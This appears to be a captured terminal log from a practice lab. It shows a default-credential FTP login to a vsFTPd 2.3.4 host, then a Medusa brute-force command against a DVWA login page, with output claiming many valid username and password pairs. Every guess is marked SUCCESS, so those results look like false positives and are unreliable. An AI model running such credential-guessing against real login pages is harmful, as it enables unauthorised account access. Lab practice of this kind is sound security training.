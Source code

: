 ┌──(kali㉿kali)-[~]
└─$ ftp 10.0.2.5
Connected to 10.0.2.5.
220 (vsFTPd 2.3.4)
Name (10.0.2.5:kali): msfadmin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> quit
221 Goodbye.
                                                                                                                       
┌──(kali㉿kali)-[~]
┌──(kali㉿kali)-[~]
└─$ medusa -h 10.0.2.5 -U users.txt -P pass.txt -M http \ -m PAGE: '/dvwa/login.php' \ -m FORM: 'username=^USER^&password=^PASS^&Login=Login' \ -m 'FAIL=Login failed' -t 6
Medusa v2.3_rc1 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2025-10-26 11:23:58 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 4, 1 complete) Password: 123456 (1 of 4 complete)
2025-10-26 11:23:58 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: msfadmin Password: 123456 [SUCCESS]
2025-10-26 11:23:58 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: admin (3 of 4, 2 complete) Password: 123456 (1 of 4 complete)
2025-10-26 11:23:58 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: admin Password: 123456 [SUCCESS]
2025-10-26 11:23:58 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 4, 3 complete) Password: password (2 of 4 complete)
2025-10-26 11:23:58 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: msfadmin Password: password [SUCCESS]
2025-10-26 11:23:58 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: root (4 of 4, 4 complete) Password: 123456 (1 of 4 complete)
2025-10-26 11:23:58 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: root Password: 123456 [SUCCESS]
2025-10-26 11:23:58 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 5 complete) Password: msfadmin (1 of 4 complete)
2025-10-26 11:23:58 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: user Password: msfadmin [SUCCESS]
2025-10-26 11:23:58 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: root (4 of 4, 6 complete) Password: password (2 of 4 complete)
2025-10-26 11:23:58 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: root Password: password [SUCCESS]
2025-10-26 11:23:59 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 7 complete) Password: qwerty (2 of 4 complete)
2025-10-26 11:23:59 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: user Password: qwerty [SUCCESS]
2025-10-26 11:23:59 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 8 complete) Password: 123456 (3 of 4 complete)
2025-10-26 11:23:59 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: user Password: 123456 [SUCCESS]
2025-10-26 11:23:59 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 9 complete) Password: password (4 of 4 complete)
2025-10-26 11:23:59 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: user Password: password [SUCCESS]
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ medusa -h 10.0.2.5 -U users.txt -P pass.txt -M http \ -m PAGE: '/dvwa/login.php' \ -m FORM: 'username=^USER^&password=^PASS^&Login=Login' \ -m 'FAIL=Login failed' -t 6
Medusa v2.3_rc1 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

